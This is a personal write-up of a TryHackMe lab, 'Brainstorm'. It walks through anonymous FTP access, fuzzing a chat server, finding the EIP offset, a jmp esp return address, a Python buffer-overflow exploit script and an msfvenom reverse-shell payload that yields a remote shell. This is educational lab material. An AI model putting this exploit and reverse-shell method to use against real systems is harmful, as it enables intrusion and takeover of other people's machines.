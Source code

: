 # Brainstorm [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

**NOTE:** <sub>_I purposefully skipped the walkthrough to try to exploit this machine myself. It had other ideas, used other exploits, used other metasploit methodology, everything is different in the walkthrough, so a lot of questions from the walkthrough aren't answered here, instead I simply focused on the flags._</sub>

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.94.151
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -p- -Pn $targ3t -oN nmap.scan -vv
```

It appears that open ports for this machine are `21`, `3389` and `9999`. Let's perform a script scan on these:

```
nmap -p 21,3389,9999 --script=vuln $targ3t -oN nmap.vuln.scan -vv
```

It doesn't seem like the ports have obvious vulnerabilities, but port `21` or `ftp` allows anonymous login, so let's do it:

```
ftp anonymous@targ3t
```

We can see that there is a chatserver directory and in it we have `chatserver.exe` and `essfunc.dll`. Let's download both.

Now going to port `9999`, where it seems like this chatserver is running, it doesn't have anything suspicious:

```
nc 10.10.227.170 9999
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Write a message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


Mon Feb 24 09:49:58 2025
AAAAAAAAAAAAAAAAAAAA said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

To test this properly, I'll mount a local Windows VM. This [write-up](https://amirr0r.github.io/posts/thm-brainstorm/) here is using `x64dbg`, which is an open-source reverse engineering application and I absolutely loved it, so I'll be using this one too. 

<sup>_For context, I tried to go through this workflow with Immunity Debugger and `mona`, but it didn't work, because of the wrong Python configuration and I didn't try to correct it, because I didn't like Immunity Debugger and `mona` very much anyway, so I thought this could be a good way to explore alternatives_</sup>

First we need to fuzz this `Write a message:` input field. I decided to do this manually, by generating cyclic patterns of different length, incrementing by 100. Finally this is the one that worked:

``` 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100
```

This crashed the application, while 2000 didn't. Which means the offset is somewhere in-between. Now we need to navigate to `x32dbg` and copy the value of the EIP register:

```
31704330
```

Then we check this value with a pattern offset:

```
└─$ /usr/bin/msf-pattern_offset -q 31704330
[*] Exact match at offset 2012
```

Now we need to write a script, that we will use as an exploit more than once:

```python3
#!/usr/bin/env python3
import socket
import time

ip = "192.168.0.111"  # Target IP
port = 9999  # Target Port

username = "A" * 20

offset = 2012
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

message = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Connected to target.")

    print("Sending username...")
    s.sendall(bytes(username + "\r\n", "latin-1"))

    time.sleep(1)  # Adjust based on response timing

    print("Sending evil buffer as a message...")
    s.sendall(bytes(message + "\r\n", "latin-1"))

    print("Done!")
except Exception as e:
    print(f"Could not connect: {e}")
finally:
    s.close()
```

I borrowed this code from the [Buffer Overflow Prep](../thm_bufferoverflow/README.md) room and modified it to work with this app.

Now I'm going to use this script to find out if EIP will be overwritten with 4 `B`s if I put them in `retn` variable:

```
overflow = "A" * offset
retn = "BBBB"
```

And then launch it:

```
python3 exploit.py
```

And this does overwrite the EIP with `42424242` which is `BBBB` in hex:

```
EIP     42424242
```

Now that we're sure we control the EIP, let's generate an array of characters and send them on top of this buffer. I borrowed a script from the above-mentioned Buffer Overflow Prep room:

```python3
#!/usr/bin/env python3

import sys

def generate_bytearray(excluded_bytes):
    excluded = bytes.fromhex(excluded_bytes.replace("\\x", "").lower())
    print("".join(f"\\x{x:02x}" for x in range(256) if x not in excluded))

if __name__ == "__main__":
    excluded_bytes = sys.argv[1] if len(sys.argv) > 1 else ""
    generate_bytearray(excluded_bytes)
```

The command to generate all bytes except `\x00` is:

```
python3 bytearray.py "\x00"
```

Now we need to copy the output into `padding` variable in our exploit and launch it:

```
python3 exploit.py
```

Now we are going to need an `ERC.Xdbg` plugin to proceed further, so make sure to install it and if done, configure it in the command input:

```
ERC --config SetWorkingDirectory C:\Users\user\Desktop\
```

And then generate a bytearray:

```
ERC --bytearray
```

After that you can copy ESP address and compare two bytearrays byte by byte:

```
ERC --compare 0109EEAC C:\Users\user\Desktop\ByteArray_1.bin
```

It seems like there are no bad chars. 

Now we need to find a return address and write it to the EIP. With the help of `ERC.Xdbg` plugin we can search for modules used by this binary, with disabled security protections:

```
ERC --ModuleInfo -NXCompat
```

Only two modules have all protections set to `False`, it's the binary itself and `essfunc.dll` file. Now we need to go to the __Symbols__ tab in the debugger and double click this `dll` file. 

Press Ctrl+F to display a find input and type `jmp esp`. It displays a list of memory addresses which are jump points to ESP. Let's use the very first one:

```
625014DF
```

So converting this to little endian and writing it into `retn` variable would be the first step: `\xdf\x14\x50\x62`

But the next step would be to generate an actual shellcode to work with this:

```
msfvenom -p 'windows/shell_reverse_tcp' LHOST=192.168.0.109 LPORT=9822 -f c --bad-chars="\x00" --var-name payload
```

Copy the output and paste it into the `payload` variable inside the parentheses like this:

```
payload = ("\xda\xd0\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x52\xba\x25\xf3"
...
"\x4b\xea\x3c\x94\x4e\xb6\xfa\x45\x23\xa7\x6e\x69\x90\xc8"
"\xba")
```

Now start a netcat listener and launch the exploit again:

```
nc -lvnp 9822
python3 exploit.py
```

The output is the shell:

```
listening on [any] 9822 ...
connect to [192.168.0.109] from (UNKNOWN) [192.168.0.111] 49898
Microsoft Windows [Version 10.0.22621.4890]
(c) Microsoft Corporation. All rights reserved.

C:\Users\windows\Desktop>whoami
whoami
desktop-n9ia851\windows

C:\Users\windows\Desktop>
```

Taking all of this to the actual TryHackMe Brainstorm machine and generating another shellcode with my VPN IP, I got the root flag:

```
C:\Users\drake\Desktop>type root.txt
type root.txt
................................
C:\Users\drake\Desktop>
```
